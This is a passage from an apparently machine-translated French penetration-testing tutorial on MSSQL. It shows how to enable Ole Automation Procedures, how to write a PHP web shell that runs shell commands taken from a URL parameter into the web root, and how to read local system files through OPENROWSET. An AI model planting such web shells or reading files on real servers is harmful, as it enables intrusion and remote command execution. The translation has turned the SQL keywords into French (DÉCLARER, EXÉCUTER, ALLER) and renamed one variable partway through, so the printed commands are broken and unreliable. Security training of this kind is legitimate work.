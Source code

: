 Pour écrire des fichiers à l'aide `MSSQL`, nous devons activer [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server- configuration-option), qui nécessite des privilèges d'administrateur, puis exécutez certaines procédures stockées pour créer le fichier :

#### MSSQL - Activer les procédures d'automatisation Ole

MSSQL - Activer les procédures d'automatisation Ole

```
1> sp_configure 'afficher les options avancées', 1
2> ALLER
3> RECONFIGURER
4> ALLER
5> sp_configure 'Procédures d'automatisation Ole', 1
6> ALLER
7> RECONFIGURER
8> ALLER

```

#### MSSQL - Créer un fichier

MSSQL - Créer un fichier

```
1> DÉCLARER @OLE INT
2> DÉCLARER @FileID INT
3> EXÉCUTER sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXÉCUTER sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXÉCUTER sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXÉCUTER sp_OADestroy @IDFichier
7> EXÉCUTER sp_OADestroy @OLE
8> ALLER

```

* * * * *

Lire les fichiers locaux
----------------

Par défaut, `MSSQL` autorise la lecture de fichiers sur n'importe quel fichier du système d'exploitation auquel le compte dispose d'un accès en lecture. Nous pouvons utiliser la requête SQL suivante :

#### Lire les fichiers locaux dans MSSQL

Lire les fichiers locaux dans MSSQL

```
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) COMME Contenu
2> ALLER

Colonne en vrac

-------------------------------------------------- ---------------------------
# Copyright (c) 1993-2009 Microsoft Corp.
#
# Ceci est un exemple de fichier HOSTS utilisé par Microsoft TCP/IP pour Windows.
#
# Ce fichier contient les mappages des adresses IP aux noms d'hôtes. Chaque
L'entrée # doit être conservée sur une ligne individuelle. L'adresse IP doit

(1 lignes concernées)

```
